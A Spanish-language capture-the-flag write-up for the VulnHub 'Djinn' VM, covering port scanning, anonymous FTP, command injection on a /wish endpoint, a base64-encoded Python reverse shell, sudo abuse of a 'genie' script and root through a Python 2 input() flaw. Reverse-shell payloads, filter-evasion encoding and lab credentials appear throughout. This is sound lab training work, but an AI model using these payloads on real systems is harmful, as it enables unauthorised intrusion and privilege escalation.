 # DJINN
Desarrollo del CTF DJINN

## 1. Configuración de la VM

- Descarga de la VM: https://www.vulnhub.com/entry/djinn-1,397/
- La VM funciona bien en VmWare

## 2. Escaneo de Puertos

```
# Nmap 7.91 scan initiated Sun Apr 18 11:27:05 2021 as: nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.00068s latency).
Not shown: 65531 closed ports
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '-', 9)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '+', 5)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj1.jpg" width=80% />

## 3. Enumeración

### 3.1. Enumeración FTP

- FTP permite acceso anónimo. Descargamos los archivos y vemos lo que tenemos.

```
root@kali:~/DJINN# ftp 10.10.10.160
Connected to 10.10.10.160.
220 (vsFTPd 3.0.3)
Name (10.10.10.160:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
-rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
226 Directory send OK.
ftp> exit
221 Goodbye.
root@kali:~/DJINN# cat creds.txt
nitu:81299
root@kali:~/DJINN# cat game.txt
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
root@kali:~/DJINN# cat message.txt
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj2.jpg" width=80% />


- En resumen al parecer tenemos alguna credencial: "nitu:81299", nos hablan del puerto 1337 abierto y de un usuario "nitish81299". Tomamos nota.

### 3.2. Enumeración TCP/1337
 
- Encontramos un pequeño juego matemático. Intenté realizar alguna inyección sin exito.

```
root@kali:~/DJINN# nc 10.10.10.160 1337
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(3, '*', 2)
> 6
(4, '-', 8)
> 
```

### 3.3. Enumeración HTTP TCP 7331

```
root@kali:~/tools/dirsearch# python3 dirsearch.py -u http://10.10.10.160:7331/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/seclists/Discovery/Web-Content/big.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: txt, html, php, asp, aspx, jsp | HTTP method: GET | Threads: 16 | Wordlist size: 163783

Error Log: /root/tools/dirsearch/logs/errors-21-04-18_12-51-02.log

Target: http://10.10.10.160:7331/

Output File: /root/tools/dirsearch/reports/10.10.10.160/_21-04-18_12-51-02.txt

[12:51:02] Starting: 
[12:53:41] 200 -    2KB - /genie
[12:57:30] 200 -  385B  - /wish
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj3.jpg" width=80% />


- Encontramos un script que nos permite ejecutar comandos. Vamos bien.


## 4. Obteniendo SHELL

- Ya que tenemos un script vamos a intentar obtener una shell reversa, sin embargo, obtenemos mensajes de error. Antes de eso lo pasamos por el BURP.

```
POST /wish HTTP/1.1
Host: 10.10.10.160:7331
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.160:7331/wish
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Connection: close
Upgrade-Insecure-Requests: 1

cmd=id
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj4.jpg" width=80% />

- Todo parece fácil, sin embargo, algunos caracteres no estaban permitidos y eso limitada las operaciones: el punto (.), asterisco (*) y slash (/).
- Después de darle muchas vueltas (1 hora), teníamos que aplicar algun encode para obtener shell. BASE64.


```
//Texto sin ENCODE

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.131",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


//Texto con ENCODE
echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTAuMTMxIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc= | base64 -d | bash
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj5.jpg" width=80% />


## 5. Obteniendo acceso a un USUARIO del sistema

### 5.1. Primer Acceso (leyendo archivos)

- Encontramos el archivo CREDS.txt que tiene permiso de lectura.

```
www-data@djinn:/home$ ls -laR .
ls -laR .
.:
total 16
drwxr-xr-x  4 root   root   4096 Nov 14  2019 .
drwxr-xr-x 23 root   root   4096 Nov 11  2019 ..
drwxr-xr-x  6 nitish nitish 4096 Apr 19 02:14 nitish
drwxr-x---  4 sam    sam    4096 Nov 14  2019 sam

./nitish:
total 36
drwxr-xr-x 6 nitish nitish 4096 Apr 19 02:14 .
drwxr-xr-x 4 root   root   4096 Nov 14  2019 ..
-rw------- 1 root   root    130 Nov 12  2019 .bash_history
-rw-r--r-- 1 nitish nitish 3771 Nov 11  2019 .bashrc
drwx------ 2 nitish nitish 4096 Nov 11  2019 .cache
drwxr-xr-x 2 nitish nitish 4096 Oct 21  2019 .dev
drwx------ 3 nitish nitish 4096 Nov 11  2019 .gnupg
drwx------ 2 nitish nitish 4096 Apr 19 02:14 .ssh
-rw-r----- 1 nitish nitish   33 Nov 12  2019 user.txt
ls: cannot open directory './nitish/.cache': Permission denied

./nitish/.dev:
total 12
drwxr-xr-x 2 nitish nitish 4096 Oct 21  2019 .
drwxr-xr-x 6 nitish nitish 4096 Apr 19 02:14 ..
-rw-r--r-- 1 nitish nitish   24 Oct 21  2019 creds.txt
ls: cannot open directory './nitish/.gnupg': Permission denied
ls: cannot open directory './nitish/.ssh': Permission denied
ls: cannot open directory './sam': Permission denied
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj6.jpg" width=80% />

- La contraseña obtenida nitish:p4ssw0rdStr3r0n9. Listo no estuvo dificil.

### 5.2. Segundo Acceso (a través de SUDO)

- Encontramos el archivo user.txt. Nada importante.

```
nitish@djinn:~$ cat user.txt
cat user.txt
10aay8289ptgguy1pvfa73alzusyyx3c
```

- A través de SUDO parece que tenemos mayor probabilidad de encontrar algo.

```
nitish@djinn:~$ sudo -l
sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj7.jpg" width=80% />

- A través del script GENIE podemos lograr mayores accesos, sin embargo, después de muchos intentos NUNCA logré como utilizar el script.

```
nitish@djinn:~$ sudo -u sam /usr/bin/genie
sudo -u sam /usr/bin/genie
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish
nitish@djinn:~$ sudo -u sam /usr/bin/genie -h
sudo -u sam /usr/bin/genie -h
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:
  wish                  Enter your wish

optional arguments:
  -h, --help            show this help message and exit
  -g, --god             pass the wish to god
  -p SHELL, --shell SHELL
                        Gives you shell
  -e EXEC, --exec EXEC  execute command
```

- El script tenía un manual, tocaba leer el manual porque existe la opción CMD que estaba escondida. Moraleja siempre buscar el MANUAL de un script no conocido.

```
       -p, --shell

              Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"

       -e, --exec

              Execute command on someone else computer is just too  damn  fun,
              but this comes with some restrictions.

       -cmd

              You know sometime all you new is a damn CMD, windows I love you.
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj8.jpg" width=80% />

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj9.jpg" width=80% />


```
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd whoami
sudo -u sam /usr/bin/genie -cmd whoami
my man!!
$ id
id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ whoami
whoami
sam
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
sam@djinn:~$ 
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj10.jpg" width=80% />


## 6. Elevar privilegios

- A través de SUDO podemos elevar privilegios como ROOT. 

```
sam@djinn:~$ sudo -l
sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
sam@djinn:~$ sudo -u root /root/lago
sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100: 
Enter your number: 69
69
Better Luck next time
sam@djinn:~$ 
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj11.jpg" width=80% />


- Intenté realizar inyecciones a través las opciones, sin embargo, nada funcionó y el script no tenía un MANUAL. Se complicó todo.
- En la carpeta del usuario SAM existe un archivo inusual, el archivo .PYC. Un archivo python compilado.

```
sam@djinn:/home/sam$ cat .pyc
cat .pyc
�
��]c@s}ddlmZddlmZddlmZd�Zd�Zd�d�Z	�Z
e
 d	krye
e	��nd
S(
  i����(tgetuser(tsystem(trandintcCs	dGHdS(NsWorking on it!! ((((s/home/mzfr/scripts/exp.pyt
naughtyboscCsBtdd�}dGHtd�}||kr9td�ndGHdS(Niies"Choose a number between 1 to 100: sEnter your number: s/bin/shsBetter Luck next time(RtinputR(tnumts((s/home/mzfr/scripts/exp.pytguessit


cCs(t�}td�}d||fGHdS(Ns$Enter the full of the file to read: s!User %s is not allowed to read %s(RR(tusertpath((s/home/mzfr/scripts/exp.pyt	readfiless	
        cCs/dGHdGHdGHdGHdGHttd��}|S(NsWhat do you want to do ?s1 - Be naughtys2 - Guess the numbers3 - Read some damn files4 - WorksEnter your choice: (tintR(tchoice((s/home/mzfr/scripts/exp.pytoptionsscCs_|dkrt�nE|dkr,t�n/|dkrBt�n|dkrVdGHndGHdS(Niiiiswork your ass off!!s"Do something better with your life(RRR
(top((s/home/mzfr/scripts/exp.pytmain's

__main__N(
          tgetpassRtosRtrandomRRRR
R__name__(((s/home/mzfr/scripts/exp.py<module>s		
		
	
sam@djinn:/home/sam$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Nov 14  2019 .
drwxr-xr-x 23 root   root   4096 Nov 11  2019 ..
drwxr-xr-x  6 nitish nitish 4096 Apr 19 02:14 nitish
drwxr-x---  4 sam    sam    4096 Nov 14  2019 sam
sam@djinn:/home/sam$ file .pyc
file .pyc
.pyc: python 2.7 byte-compiled
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj12.jpg" width=80% />

- Toca decompilar ese archivo python. Existe una página web que lo realiza ONLINE: https://www.toolnb.com/tools-lang-en/pyc.html

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj13.jpg" width=80% />

```
# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Aug  7 2019, 00:51:29) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-39)]
# Embedded file name: /home/mzfr/scripts/exp.py
# Compiled at: 2019-11-07 21:05:18
from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'


if __name__ == '__main__':
    main(options())
```

- Este extracto del código es el que nos ayuda. Si colocamos NUM cuando nos brinda shell. 

```
def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'
```


```
sam@djinn:/home/sam$ sudo -u root /root/lago
sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100: 
Enter your number: num
num
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
lago  proof.sh
# cat proof.sh
cat proof.sh
#!/bin/bash

clear

figlet Amazing!!!

echo djinn pwned...
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj14.jpg" width=80% />



